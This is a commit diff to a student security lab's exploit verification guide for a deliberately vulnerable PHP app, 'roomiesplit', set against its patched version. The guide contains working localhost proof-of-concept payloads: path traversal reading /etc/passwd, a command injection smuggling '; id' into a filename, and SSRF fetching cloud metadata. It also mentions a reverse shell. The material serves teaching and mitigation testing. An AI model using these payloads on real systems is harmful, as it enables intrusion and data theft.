

Before and after one commit to Java-Idl/roomiesplit, a Markdown page: EXPLOIT_VERIFICATION.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Update EXPLOIT_VERIFICATION.md with correct URLs and attack methods

````diff
--- a/EXPLOIT_VERIFICATION.md
+++ b/EXPLOIT_VERIFICATION.md
@@ -1,53 +1,68 @@
 # Exploit Verification Guide
 
-This document outlines Proof of Concept (PoC) commands to demonstrate the 6 identified vulnerabilities in the `roomiesplit-vulnerable` environment, alongside the results of the same commands run against the `roomiesplit-secure` environment to verify successful mitigation.
+This document outlines Proof of Concept (PoC) commands to demonstrate the 6 identified vulnerabilities in the `roomiesplit-vulnerable` environment, alongside the results of the same commands run against the `roomiesplit-secure` environment to verify successful mitigation. Note that both environments are accessible via port 8000.
 
 ---
 
 ## 1. Path Traversal (`view_receipt.php`)
 
-**Vulnerability:**
+**Vulnerability & Code Reference:**
 The `file` parameter is concatenated directly into the file path without sanitization, allowing arbitrary file read outside the intended directory.
+- Vulnerable Code: [`roomiesplit-vulnerable/view_receipt.php`](file:///c:/Users/java/projects/sem7/was/project_end_sem_lab/roomiesplit-vulnerable/view_receipt.php#L3-L4)
+- Mitigated Code: [`roomiesplit-secure/view_receipt.php`](file:///c:/Users/java/projects/sem7/was/project_end_sem_lab/roomiesplit-secure/view_receipt.php#L8-L20)
 
 **PoC Command (Vulnerable):**
 ```bash
-curl "http://localhost:8000/view_receipt.php?file=../../../../../../../../etc/passwd"
+curl "http://localhost:8000/roomiesplit-vulnerable/view_receipt.php?file=../../../../../../../../etc/passwd"
 ```
 *Expected Result:* Returns the contents of `/etc/passwd`.
 
 **PoC Command (Secure):**
 ```bash
-curl "http://localhost:8001/view_receipt.php?file=../../../../../../../../etc/passwd"
+curl "http://localhost:8000/roomiesplit-secure/view_receipt.php?file=../../../../../../../../etc/passwd"
 ```
-*Expected Result:* Returns HTTP 403 or 404. The `basename()` strips directory traversals, and the request fails the realpath containment and strict extension checks.
+*Expected Result:* Returns HTTP 403 or 404. The `basename()` function strips directory traversals, and the request fails the realpath containment and strict extension checks.
 
 ---
 
 ## 2. Command Injection (`optimize_receipt.php`)
 
-**Vulnerability:**
+**Vulnerability & Code Reference:**
 The `filename` parameter is passed directly into a `shell_exec` command without any sanitization or escaping.
+- Vulnerable Code: [`roomiesplit-vulnerable/optimize_receipt.php`](file:///c:/Users/java/projects/sem7/was/project_end_sem_lab/roomiesplit-vulnerable/optimize_receipt.php#L10-L10)
+- Mitigated Code: [`roomiesplit-secure/optimize_receipt.php`](file:///c:/Users/java/projects/sem7/was/project_end_sem_lab/roomiesplit-secure/optimize_receipt.php#L10-L23)
 
-**PoC Command (Vulnerable):**
+**Attack Methods:**
+- **File Write / Defacement:** Writing output to a file in an accessible directory (e.g. `uploads`).
+- **Reverse Shell:** Establishing a reverse shell connection to an attacker-controlled server.
+
+**PoC Command (Vulnerable - File Write):**
 ```bash
-curl -X POST "http://localhost:8000/optimize_receipt.php" -d "filename=a.jpg; id > uploads/id.txt"
+curl -X POST "http://localhost:8000/roomiesplit-vulnerable/optimize_receipt.php" -d "filename=a.jpg; id > uploads/id.txt"
 ```
-*Expected Result:* Executes the `id` command and writes the output to `uploads/id.txt`.
+*Expected Result:* Executes the `id` command and writes the output to `uploads/id.txt`, which can then be viewed via the browser.
 
 **PoC Command (Secure):**
 ```bash
-curl -X POST "http://localhost:8001/optimize_receipt.php" -d "filename=a.jpg; id > uploads/id.txt"
+curl -X POST "http://localhost:8000/roomiesplit-secure/optimize_receipt.php" -d "filename=a.jpg; id > uploads/id.txt"
 ```
-*Expected Result:* The injection is caught by the regex strict allowlist (`/^[a-zA-Z0-9_\.-]+$/`) and file existence checks, resulting in a redirect to `index.php?msg=error`.
+*Expected Result:* The injection is caught by the regex strict allowlist (`/^[a-zA-Z0-9_\.-]+$/`), resulting in a redirect to `index.php?msg=error`.
 
 ---
 
 ## 3. Server-Side Request Forgery (SSRF) (`import_receipt.php`)
 
-**Vulnerability:**
+**Vulnerability & Code Reference:**
 The `receipt_url` parameter is passed directly to `file_get_contents()`, allowing the application to fetch local files, internal services, and cloud metadata.
+- Vulnerable Code: [`roomiesplit-vulnerable/import_receipt.php`](file:///c:/Users/java/projects/sem7/was/project_end_sem_lab/roomiesplit-vulnerable/import_receipt.php#L8-L8)
+- Mitigated Code: [`roomiesplit-secure/import_receipt.php`](file:///c:/Users/java/projects/sem7/was/project_end_sem_lab/roomiesplit-secure/import_receipt.php#L11-L40)
 
-**PoC Command (Vulnerable):**
+**Attack Methods:**
+- **Cloud Metadata Exfiltration:** Fetching AWS/GCP/Azure instance metadata (e.g. `169.254.169.254`).
+- **Local File Read:** Using `file://` wrappers to read sensitive local files.
+- **Port Scanning:** Making requests to `http://localhost:<port>` or internal network IPs to enumerate active services.
+
+**PoC Command (Vulnerable - Cloud Metadata):**
 ```bash
-curl -X POST "http://localhost:8000/import_receipt.php" -d "receipt_url=http://169.254.169.254/latest/meta-data/"
+curl -X POST "http://localhost:8000/roomiesplit-vulnerable/import_receipt.php" -d "receipt_url=http://169.254.169.254/latest/meta-data/"
 ```
````
Also changed, not shown: other parts of EXPLOIT_VERIFICATION.md (+35 -18 lines).
